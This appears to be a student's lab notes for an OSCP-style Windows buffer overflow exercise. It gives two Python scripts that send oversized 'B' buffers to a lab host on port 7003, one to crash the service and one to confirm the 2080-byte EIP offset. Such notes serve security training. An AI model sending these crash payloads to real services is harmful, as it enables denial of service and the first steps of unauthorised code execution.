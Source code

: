 The app crashed with EIP 14801029. Notice that EDI and ESI both write B's to those registers.
![eb43da276f7026da3aed283017123e43.png](:/a2ebf4dbc2f648b4851215a1f50cf3e7)

Fuzzing with B's didn't work either. I could only send one payload per script. Buffer value 2084 will write EIP 42424242.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 1_poc.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  buffer = "B" * 2084 # x8b0 2224

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(buffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

## Find space for first stage shellcode
We will verify the crash and use the technique of increasing our buffer.
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ cat 2_verify_offset.py 
#!/usr/bin/python
import socket

try:
  print "\nSending evil buffer..."

  filler = "B" * 2080
  eip = "Y" * 4
  buffer = "Z" * (2100 - len(filler) - len(eip))
  inputBuffer = filler + eip + buffer

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```
